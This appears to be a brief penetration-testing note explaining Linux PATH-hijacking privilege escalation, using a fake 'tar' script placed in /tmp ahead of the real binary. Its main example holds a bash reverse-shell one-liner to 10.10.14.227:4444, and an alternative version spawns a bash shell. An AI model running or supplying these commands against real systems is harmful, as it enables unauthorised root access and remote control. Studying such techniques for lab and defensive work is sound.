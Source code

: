 Some linux scripts/binaries can be exploited by abusing paths.

If a command is performed within a script/binary without specifying an absolute path, we can create a file with the same name, and add the directory of the malicious duplicate file to the beginning of PATH env.

Path Injection example (tar)
```
cd /tmp/
vi tar

	#!/bin/bash
	/bin/bash -i >& /dev/tcp/10.10.14.227/4444 0>&1

chmod +x tar
export PATH=$(pwd):$PATH
echo $PATH
```
when the binary is run next and tar is run, it will run our malicious "tar" script instead of the real binary, and we catch a reverse shell.

NOTE: depending on the shell, we might be about to have the script just run "bash" , no rev-shell one-liner required

#### Alternative
This is dependent on if we have a good shell or not
Malicious "tar"
```
cd /tmp/
vi tar
	#!/bin/bash
	bash
chmod +x tar
export PATH=$(pwd):$PATH
echo $PATH
```